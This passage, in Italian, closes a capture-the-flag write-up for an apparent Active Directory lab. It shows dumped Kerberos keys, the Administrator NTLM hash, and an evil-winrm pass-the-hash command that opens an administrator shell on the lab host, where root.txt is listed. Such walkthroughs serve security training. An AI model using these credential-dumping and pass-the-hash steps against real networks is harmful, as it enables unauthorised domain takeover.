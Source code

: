 ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:7e75d84abe2053b7a8bf8a72f56706ddb9656140d91b805affaab0f7c7cd6eba  
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:d8044e8096f3a187ffaa922c1ba75feb  
ATTACKTIVEDIREC$:des-cbc-md5:5d1fea9e106d971c  
\[\*\] Cleaning up...

Otteniamo che l’NTLM hash di Administrator è 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM
==========

Per fare la login con il metodo pass the hash

evil-winrm -i 10.10.243.171 -u administrator -H 0e0363213e37b94221497260b0bcb4fc          
  
Evil-WinRM shell v3.3  
  
Warning: Remote path completions is disabled due to ruby limitation: quoting\_detection\_proc() function is unimplemented on this machine  
  
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completionInfo: Establishing connection to remote endpoint  
  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents> cd ..  
\*Evil-WinRM\* PS C:\\Users\\Administrator> cd Desktop  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Desktop> dir  
  
  
  Directory: C:\\Users\\Administrator\\Desktop  
  
  
Mode                LastWriteTime         Length Name  
\----                -------------         ------ ----  
\-a----         4/4/2020  11:39 AM             32 root.txt

Adesso è possibile ottenere i flag